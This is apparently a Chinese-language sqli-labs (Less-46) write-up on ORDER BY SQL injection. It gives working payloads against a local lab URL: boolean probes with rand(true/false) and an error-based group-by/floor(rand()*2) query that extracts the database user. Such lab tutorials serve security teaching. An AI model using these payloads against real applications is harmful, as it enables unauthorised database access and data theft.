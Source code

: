 ```mysql
SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

我们可利用order by 后的一些参数进行注入。

（1）、order by 后的数字可以作为一个注入点。也就是构造order by 后的一个语句，让该语句执行结果为一个数，我们尝试

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=right(version(),1)
```

没有报错，但是right 换成left 都一样，说明数字没有起作用，我们考虑布尔类型。此时我们可以用报错注入和延时注入。此处可以直接构造?sort= 后面的一个参数。此时，我们可以有三种形式，

+   直接添加注入语句，?sort=(select **\*\***)

+   利用一些函数。例如rand()函数等。?sort=rand(sql 语句)  
    Ps：此处我们可以展示一下rand(ture)和rand(false)的结果是不一样的。

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=rand(false)
```

![image-20210201143400000](https://cdn.jsdelivr.net/gh/cc-sql/imagbed/img/20210201143404.png)

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=rand(true)
```

![image-20210201143447825](https://cdn.jsdelivr.net/gh/cc-sql/imagbed/img/20210201143450.png)

+   利用and，例如?sort=1 and (加sql 语句)。

同时，sql 语句可以利用报错注入和延时注入的方式，语句我们可以很灵活的构造。

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=(select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))
```
